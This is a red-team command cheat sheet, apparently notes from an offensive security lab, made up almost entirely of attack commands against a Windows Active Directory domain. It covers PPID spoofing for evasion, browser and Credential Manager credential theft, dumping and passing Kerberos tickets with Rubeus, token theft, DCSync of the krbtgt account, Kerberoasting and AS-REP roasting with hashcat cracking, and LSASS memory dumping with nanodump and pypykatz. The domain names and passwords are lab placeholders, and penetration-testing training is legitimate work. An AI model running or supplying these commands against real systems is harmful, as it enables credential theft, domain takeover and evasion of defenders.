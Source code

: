#### OPSEC Safe

PPID Spoof
```powershell
ppid 123
spawnto x64 C:\Windows\System32\svchost.exe
```

Browser credentials
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpChrome\bin\Release\SharpChrome.exe logins
```

Windows Credential Manager
```powershell
run vaultcmd /listcreds:"Windows Credentials" /all
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
```

```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /rpc
```

 Extracting tickets + renewing them
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x13496b /service:krbtgt /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x13491f /service:ldap /nowrap
```

```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe renew /ticket:doIFq[...snip...]uQ09N /nowrap
```

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DUBLIN.CONTOSO.COM /username:nwallace /password:FakePass /ticket:

steal_token [PID]
run klist

ls \\lon-fs-1\c$
dcsync DUBLIN.CONTOSO.COM DUBLIN\krbtgt
```
 
 Kerberoasting
```powershell
ldapsearch "(&(objectClass=user)(servicePrincipalName=*)(!(userAccountControl:1.2.840.113556.1.4.803:=1048576)))" --attributes samAccountName,servicePrincipalName,objectsid,ntsecuritydescriptor
```

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /spn:MSSQLSvc/dub-sql-2.dublin.contoso.com /simple /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:MSSQLSVC /simple /nowrap
```

```powershell
C:\Tools\hashcat.exe -a 0 -m 13100 .\kerb.hash .\example.dict -r .\rules\dive.rule
```

AS-REP Roasting
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /format:hashcat /nowrap
```

---

Nanodump Adpatix C2
```powershell
nanodump -w C:\Windows\System32\dotnet.tmp --valid

pypykatz lsa minidump dotnetdmp.tmp
```
